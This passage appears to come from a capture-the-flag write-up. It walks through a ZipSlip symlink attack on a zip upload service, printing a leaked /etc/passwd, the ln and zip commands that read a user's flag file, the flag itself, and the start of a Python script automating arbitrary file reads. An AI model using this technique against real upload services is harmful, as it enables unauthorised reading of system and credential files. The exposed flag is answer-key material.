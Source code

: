 Uploading the zip and looking at the response gives us the base64 encoded data of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

We can see a user `rektsu` and probably get the user flag doing this!

```
$ ln -s ../../../../../../../../../../home/rektsu/user.txt zipslip-user.pdf
$ zip -y zipslip-user.zip zipslip-user.pdf
```

And surely enough after upload, visiting the URL and base64 decoding the response, we get our user flag! <mark>7fc124f67ec9ba3c47da4afb6e7a77ee</mark>

## Inital Access & Exploitation+

To make the process a bit quicker I ended up writing a python script to automatically perform the ZipSlip attack:

```python
import os, requests, sys

try:
    print('Made by sealldeveloper')
    path_trav="../../../../../../../../../../../../../../../../../../.."
    path=path_trav+sys.argv[1]
except:
    print(f'ERROR: Please provide a file path! eg. python3 {sys.argv[0]} /etc/passwd')
    sys.exit()

print('Making symlink...')
os.system(f'ln -s {path} zipslip.pdf')
print('Making zip...')
os.system(f'zip -y zipslip.zip zipslip.pdf')
print('Removing symlink...')
os.system('rm zipslip.pdf')
print('Crafting payload for uploader...')

```